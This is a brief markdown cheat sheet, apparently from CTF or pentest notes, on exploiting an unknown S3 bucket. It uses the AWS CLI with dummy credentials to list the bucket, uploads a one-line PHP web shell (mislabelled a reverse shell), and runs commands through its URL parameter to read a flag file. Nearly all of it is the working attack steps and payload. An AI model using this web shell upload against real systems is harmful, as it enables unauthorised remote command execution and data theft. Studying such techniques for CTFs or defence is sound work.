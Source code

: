 ```yaml
---
title: 'AWS S3 get info'
desc: 'Getting information from a S3'
tags: 'awscli,s3'
---
```


# An unknown S3 bucket

To interact with S3, the AWS CLI (awscli) is needed. 
Then it's needed to have dummy configuration.

1. install awscli
2. aws configure (dummy data)
3. list the bucket files: endpoint definition is needed

```
aws s3 --endpoint=http://s3.target.com/ ls s3://target.com/
```

4. upload a php reverse shell

```
# php reverse shell : <?php system($_GET['cmd']); ?>

aws s3 --endpoint=http://s3.target.com/ cp ./shell.php s3://target.com/
```

5. Execute reverse shell through URL

It's possible to use Burp repeater: intercept the request and send it to repeater, 
then modify the parameters and send the requests.

```
http://target.com/shell.php?cmd=ls
http://target.com/shell.php?cmd=ls+../
http://target.com/shell.php?cmd=cat+../flag.txt
```

